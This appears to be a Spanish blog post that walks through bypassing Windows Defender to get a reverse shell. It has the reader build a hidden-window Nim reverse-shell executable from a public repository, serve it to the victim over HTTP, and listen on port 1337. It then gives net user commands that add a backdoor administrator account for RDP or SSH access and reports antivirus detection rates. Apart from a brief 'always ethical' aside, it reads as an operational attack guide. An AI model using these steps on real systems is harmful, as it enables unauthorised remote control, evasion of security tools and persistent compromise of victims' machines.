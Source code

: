 ```yaml
---
title: Bypass Windows Defender con Nim.
published: true
---
```


En este artículo, os muestro como es posible eludir el AV de Windows para obtener un shell inverso estable con nim.

## ¿Qué es Nim?
Según el sitio web oficial de NIM, lo definen como un lenguaje de programación que tiene el poder de poder generar archivos ejecutables sin la necesidad de dependencias. Es utilizado para desarrollar aplicaciones para sistemas Windows, BSD, Linux, etc.

## Requisitos previos.
Como es de entender, se necesita tener instalado previamente nim y mingw. Esto se puede completar mediante la comanda:

```bash
Debian: sudo apt install nim mingw-w64
Fedora, CentOS, RHEL: sudo dnf install nim mingw64-gcc
Arch Linux: sudo pacman -S nim mingw-w64-gcc
OpenSUSE: sudo zypper install nim mingw64-gcc
```
Una vez acabada con la instalación debemos de clonar un repositorio de GitHub, el cual es el encargado de hacer nuestra tarea.
```
https://github.com/Sn1r/Nim-Reverse-Shell
```
## Tutorial.
Una vez clonado, debemos de editar las variables v1 y v2, reemplanzadolas por nuestra IP y el puerto que queramos usar del archivo.

> ![imagen](https://github.com/cerodah/blog/assets/82907557/79c01442-3105-406a-bb5d-0c68c31c4aa9)

Una vez hecho, debemos de escribir este comando
```bash
nim c -d:mingw --app:gui --opt:speed -o:Prueba.exe rev_shell.nim
```
Desglosamiento:
* **c:** Indicamos al compilador que complile con c.
* **-d:mingw:** Indicamos al compilador que use MinGW como cadena de strings para compilar. Permite ejecutar código nativo de Windows en sistemas Unix y Linux.
* **-app:gui:** Mientras se ejecuta el shell inverso en la máquina víctima (siempre éticos) el proceso se crea en segundo plano y la CLI no se muestra al usuario.
* **--opt:Speed:** Optimizamos el código para agilizar la velocidad de ejecución.
  Bueno... y los otros parámetros ya se puede intuir...
  > ![imagen](https://github.com/cerodah/blog/assets/82907557/c255ed96-3723-47e1-a550-e3861268f1bc)

Activamos un servidor HTTP en nuestra máquina local para poder nosotros descargarlo desde la máquina víctima y a la vez nos ponemos en escucha por el puerto establecido anteriormente (mi caso el 1337, jejeje).

> ![imagen](https://github.com/cerodah/blog/assets/82907557/bce96b4c-5bc1-4bc8-92ca-16c9d09cc772)

El Windows Defender no me ha avisado absolutamente de nada, pero hablaremos de una cosa más adelante.
> ![imagen](https://github.com/cerodah/blog/assets/82907557/e0dd89b7-7d95-4ff3-b2d2-86dc90e7abdb)
Y finalmente entablamos una conexión con la máquina víctima :). Si da el caso en el que se nos cierra la shell debido a restricciones simplemente creamos un nuevo usuario rápidamente con privilegios de administrador y posteriormente iniciar sesión a través de RDP o SSH si estuvieran abiertos los puertos.
```bash
 net user cerodah cerodah123 /add
 net localgroup administrators cerodah /add
```

## No todo es lo que parece.
Si nuestra víctima tuviera otro AV, hay una pequeña parte que podría ser detectado. Nos podemos pasar este archivo a VirusTotal y vemos que 30 AV lo han detectado que es un 43,66%.

> ![imagen](https://github.com/cerodah/blog/assets/82907557/f3fd88b2-4d3c-4cb6-9f8f-27e92aefe5a1)

Y con esto me despido...

```bash
Happy Hacking ^^
```
